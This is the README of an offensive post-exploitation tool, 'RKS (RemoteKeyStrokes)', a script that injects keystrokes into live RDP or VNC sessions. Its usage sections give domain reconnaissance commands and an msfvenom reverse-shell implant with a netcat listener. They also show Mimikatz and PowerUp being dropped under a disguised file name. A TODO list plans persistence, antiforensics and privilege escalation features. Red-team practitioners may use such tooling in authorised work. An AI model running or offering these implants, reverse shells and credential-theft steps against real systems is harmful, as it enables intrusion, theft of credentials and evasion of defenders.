 # Description

## Introduction

A script to automate keystrokes through an active remote desktop session that assists offensive operators in combination with living off the land techniques.

## About RKS (RemoteKeyStrokes)

All credits goes to [nopernik](https://github.com/nopernik) for making it possible so I took it upon myself to improve it. I wanted something that helps during the post exploitation phase when executing commands through a remote desktop.

## Help Menu

```
$ ./rks.sh -h
Usage: ./rks.sh (RemoteKeyStrokes)
Options:
    -c, --command <command | cmdfile>       Specify a command or a file containing to execute
    -i, --input <input_file>                Specify the local input file to transfer
    -o, --output <output_file>              Specify the remote output file to transfer
    -m, --method <method>                   Specify the file transfer or execution method
                                            (For file transfer "base64" is set by default if
                                            not specified. For execution method "none" is set
                                            by default if not specified)

    -p, --platform <operating_system>       Specify the operating system (windows is set by
                                            default if not specified)

    -w, --windowname <name>                     Specify the window name for graphical remote
                                            program (freerdp is set by default if not
                                            specified)

    -h, --help                              Display this help message
```

## Usage

### Internal Reconnaissance

- When running in command prompt

```
$ cat recon_cmds.txt
whoami /all
net user
net localgroup Administrators
net user /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain
net group "Domain Computers" /domain

$ ./rks.h -c recon_cmds.txt
```

### Execute Implant

- Execute an implant while reading the contents of the payload in powershell.

```
$ msfvenom -p windowx/x64/shell_reverse_tcp lhost=<IP> lport=4444 -f psh -o implant.ps1

$ ./rks.sh -c implant.ps1

$ nc -lvnp 4444
```

### File Transfer

- Transfer a file remotely when pivoting in a isolated network. If you want to specify the remote path on windows be sure to include quotes.

```
$ ./rks.sh -i /usr/share/powersploit/Privesc/PowerUp.ps1 -o script.ps1

$ ./rks.sh -i /usr/share/powersploit/Exfiltration/Invoke-Mimikatz.ps1 -o "C:\Windows\Temp\update.ps1" -m base64
```

### Specify Grapical Remote Software

- If you're targeting VNC network protocols you can specify the window name with `tightvnc`.

`$ ./rks.sh -i implant.ps1 -w tightvnc`

- If you're targeting legacy operating systems with older RDP authentication specify the window name with `rdesktop`.

`$ ./rks.sh -i implant.bat -w rdesktop`

## TODO and Help Wanted

- Add text colors for better user experience

- Implement Base64 file transfer

- Implement Bin2Hex file transfer

- Implement a persistence function for both windows and linux.

- Implement antiforensics function for both windows and linux.

- Implement to read shellcode input and run C# implant and powershell runspace

- Implement privesc function for both windows and linux

## References

- [Video: sethc.exe Backdoor CMD Payload delivery (USB Rubber Ducky style)](https://www.youtube.com/watch?v=8YFEujJUxws)

- [Original Script](https://github.com/nopernik/mytools/blob/master/rdp-cmd-delivery.sh)

- [sticky_keys_hunter](https://github.com/ztgrace/sticky_keys_hunter)

## Credits

- [nopernik](https://github.com/nopernik)
